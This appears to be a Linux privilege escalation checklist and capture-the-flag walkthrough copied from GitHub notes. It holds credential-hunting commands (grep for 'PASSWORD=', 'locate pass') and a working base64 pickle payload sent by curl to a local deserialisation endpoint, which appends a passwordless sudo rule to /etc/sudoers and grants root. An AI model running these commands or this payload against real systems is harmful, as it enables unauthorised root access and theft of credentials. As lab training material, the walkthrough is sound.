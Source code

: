 # 9c550d

## LINUX PRIVILEGE ESCALATION CHECKLIST
### SYSTEM INFORMATION
- Get OS information:
- Check the path
- Check the env variables, any sensitive detail
- Search for kernel exploits such as DirtyCow
- Check if the sudo version is vulnerable
- Dmesg signature verification failed
- Check if yu have writing access to some cron job files.
- Check which services are running.


https://github.com/gurkylee/Linux-Privilege-Escalation-Basics

```bash
uname -a 
hostname 
lscpu 
ls /home 
ls /var/www/html 
ls /var/www/
ps aux | grep root 
netstat -tulpn 
ps -aux | grep root | grep mysql
ifconfig 
find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \;
locate pass | more
```

- **Basic system enumeration:** if we do `ps aux` we can see that there is a python server that exposes and endpoint:


```bash
curl http://127.0.0.1:8000/
{
    "404": "The API call you tried to make was not defined. Here's a definition of the API to help you get going :)",
    "documentation": {
        "overview": "Python server that deserializes python pickles.",
        "handlers": {
            "/deserialize": {
                "GET": {
                    "usage": "\n    Deserialize a base64 encoded python pickle.\n\n    The system auto-restarted every 15 minutes.\n    ",
                    "outputs": {
                        "format": "JSON (Javascript Serialized Object Notation)",
                        "content_type": "application/json; charset=utf-8",
                        "type": "dict() -> new empty dictionary\ndict(mapping) -> new dictionary initialized from a mapping object's\n    (key, value) pairs\ndict(iterable) -> new dictionary initialized as if via:\n    d = {}\n    for k, v in iterable:\n        d[k] = v\ndict(**kwargs) -> new dictionary initialized with the name=value pairs\n    in the keyword argument list.  For example:  dict(one=1, two=2)"
                    },
                    "inputs": {
                        "data": {
                            "type": "Basic text / string value"
                        }
                    }
                }
            }
        }
    }
}
```
If we send a pickle to this api, we will be able to execute a command with root accesses, the pickle file what does is to serialize in a pickle entity a command.
```python


```

curl "http://127.0.0.1:8000/deserialize?data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg=="

curl -G --data-urlencode "data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg==" http://127.0.0.1:8000/deserialize

curl -G --data-urlencode "data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg==" http://127.0.0.1:8000/deserialize
 
Now at this point you get root access and if you go to the root you will find the flag:
	flag{9c550d9623e1ebdf2a878b07ac437bff4508663a2e2f69}.jpg

